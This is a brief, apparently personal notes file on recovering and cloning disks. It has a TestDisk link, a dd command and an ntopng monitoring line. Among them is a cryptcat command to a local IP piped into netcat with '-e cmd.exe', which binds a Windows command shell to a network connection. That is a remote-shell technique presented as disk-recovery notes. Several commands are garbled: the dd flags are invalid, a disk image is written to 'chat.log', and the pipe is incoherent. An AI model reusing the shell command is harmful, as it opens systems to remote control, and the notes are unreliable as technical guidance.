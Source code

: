# How to retrieve disks and clone them.

# Also use testdisk - Whole retrieval

Recover untouched files.

https://www.cgsecurity.org/wiki/TestDisk_Download

Retrieve disks...

xt1955-2 64gb pvt1 - USB Stick

dd if=\\?\Device\Harddisk0\DR0 of=E:\256GB-Backup\chat.log bs=3M --size --progress

c:\Toolz\Cryptcat_x86-x64_Win10_Stable\cryptcat x64>cryptcat-x64.exe -v -n -u 192.168.0.30 9999 -k heart > chat.log | nc64.exe -e cmd.exe

ntopng /c -i 8 -m 192.168.0.1/24 

CIDR Notation | Upper.
